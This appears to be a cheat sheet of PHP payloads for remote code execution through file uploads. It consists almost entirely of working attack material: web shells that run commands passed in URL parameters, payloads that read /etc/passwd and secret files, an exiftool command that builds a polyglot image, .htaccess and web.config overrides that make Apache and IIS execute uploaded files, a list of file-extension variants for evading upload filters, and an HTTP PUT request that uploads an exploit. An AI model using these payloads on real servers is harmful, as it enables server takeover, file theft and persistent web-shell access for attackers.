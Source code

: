 # PHP Payloads for RCE

## Normal Payloads
```php
<?php echo file_get_contents('/etc/passwd'); ?> >> To read files
<?php system($_GET['cmd']); ?> >> For system command
<?php passthru($_GET['cyborg71']); ?> >> For system command*
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```
## Exploiting Server Configuration
___
### Apache Bypass
```
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
### IIS Bypass
```
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
## Obfuscating File Extensions
```
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
### Uploading files using PUT
```txt
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
